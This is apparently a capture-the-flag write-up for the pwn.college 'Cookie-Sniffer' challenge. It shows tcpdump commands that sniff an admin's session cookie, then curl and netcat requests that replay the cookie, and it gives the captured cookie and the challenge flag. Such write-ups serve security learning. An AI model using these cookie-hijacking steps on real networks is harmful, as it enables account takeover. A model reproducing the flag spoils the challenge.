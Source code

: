 # Cookie-Sniffer 🕵️‍♂️🍪

## 🧠 Task Description

**Challenge Name:** Cookie-Sniffer  
**Platform:** pwn.college  
**Goal:** Steal the admin's session cookie and use it to retrieve the flag from the server.

> 💡 *Hint from challenge:*  
> Use your full set of HTTP tools (e.g., `curl`, `nc`, `tcpdump`, etc.) to steal and use the cookie. Make sure to run everything in the terminal on `10.0.0.1`!

---

## 🔍 Reconnaissance

By examining `/challenge/run`, we see a Python-based setup using Flask to simulate a login system and session management.

### Key points from `run` script:
- Admin logs in to `http://10.0.0.2/login` with a randomly generated password.
- A Flask session is created for the user with a secret key.
- `/flag` endpoint only responds if the user is `"admin"` in session.

The goal is clear: **Sniff the traffic, find the session cookie, and use it to access `/flag`.**

---

## 📡 Exploitation: Sniff the Admin Cookie

We start by running `tcpdump` to intercept HTTP traffic to/from the server.

```bash
root@ip-10-0-0-1:~# tcpdump -i eth0 -A host 10.0.0.2 and port 80 | grep Cookie
```
Captured Cookie:
```
Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.aIpVMw.xUesKcudRDiq9j9kKh2eAxLrOLo
```
The cookie includes a session JWT with user=admin.

---

## Accessing the Flag
### Option 1: Using curl
```bash
curl -b "session=eyJ1c2VyIjoiYWRtaW4ifQ.aIpVMw.xUesKcudRDiq9j9kKh2eAxLrOLo" http://10.0.0.2/flag
```
Output:
```
pwn.college{41-255x-yJ6Y3i06sHOi-hYSeFY.0VM0AjNxwSM0IzMyEzW}
```
### Option 2: Using nc (netcat)
```bash
printf "GET /flag HTTP/1.0\r\nHost:localhost\r\nCookie:session=eyJ1c2VyIjoiYWRtaW4ifQ.aIpVMw.xUesKcudRDiq9j9kKh2eAxLrOLo\r\n\r\n" | nc localhost 80
```
This also works, but curl is easier and cleaner.
---
## Flag
```bash
pwn.college{41-255x-yJ6Y3i06sHOi-hYSeFY.0VM0AjNxwSM0IzMyEzW}
```
---
